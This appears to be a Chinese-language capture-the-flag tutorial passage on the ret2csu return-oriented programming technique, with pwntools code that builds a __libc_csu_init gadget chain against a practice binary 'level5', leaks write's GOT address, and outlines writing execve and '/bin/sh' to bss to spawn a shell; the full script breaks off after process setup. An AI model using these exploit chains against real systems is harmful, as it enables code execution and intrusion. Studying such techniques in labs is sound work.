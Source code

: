 

简单示例：

payload

```python
def csu_pop(rbx,rbp,r12,r13,r14,r15,ret,base_addr):
    #跳转到0x400600
    payload = p64(base_addr + 0x40061a)
    payload += p64(rbx) + p64(rbp) + p64(r12)+ p64(r13)+ p64(r14)+ p64(r15)
    
    #0x400600执行完毕，ret返回跳转到0x400609
    payload += p64(base_addr + 0x400600)
    
    #函数调用完毕，填充0x38数据
    payload += b"A" * 0x38
    
    #最后ret返回到主函数
    payload += p64(base_addr + ret)

    return payload


def csu_pop_easy(edi,rsi,rdx,call,ret,base_addr = 0):
    return csu_pop(0,1,call,rdx,rsi,edi,ret,base_addr)



payload = b"A" * 0x88 

got_write = 0x00601018
got_read = 0x00601020
main_addr = 0x00400587

#调用write函数，将write函数的地址打印出来。
payload += csu_pop_easy(1,got_write,8,got_write,main_addr,0)

p.sendline(payload)
```



第一次调用write函数，打印write函数的地址

然和根据write函数的地址，计算出exeve函数地址

第二次调用read函数，将exeve函数地址写入bss，将"/bin/sh\x00"写入bss+8

第三次调用bss处存放的函数（exeve），将bss+8作为第一个参数提交（函数只需要一个参数）

完整payload

```python
#!/usr/bin/env python
from pwn import *

 
context.binary = binary = ELF("./level5",checksec=False)
context.log_level = "debug"

#启动一个进程
p = process()
#p = remote('43.249.195.138',21106)

#获取进程的pid
pid = util.proc.pidof(p)
pid = pid[0]

#等待进程被跟踪
```